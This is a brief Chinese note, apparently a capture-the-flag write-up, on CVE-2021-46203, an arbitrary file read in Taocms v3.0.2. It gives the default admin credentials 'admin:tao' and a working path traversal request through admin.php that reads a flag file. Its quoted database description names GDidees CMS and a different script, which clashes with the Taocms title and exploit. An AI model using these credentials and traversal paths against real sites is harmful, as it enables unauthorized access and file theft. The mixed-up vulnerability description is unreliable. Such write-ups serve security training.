 # CVE-2021-46203

:::info

Tags

- Taocms v3.0.2 任意文件读取

官方数据库记录

> GDidees CMS v3.9.1 及更低版本被发现包含通过 /_admin/imgdownload.php 处的文件名参数下载任意文件的漏洞。

:::

参考 [arbitrary file read vulnerability · Issue #13 · taogogo/taocms](https://github.com/taogogo/taocms/issues/13)

使用默认凭据 `admin:tao` 登陆后台之后，使用 `/admin/admin.php?action=file&ctrl=download&path=../../../../../../flag` 构建任意文件读取即可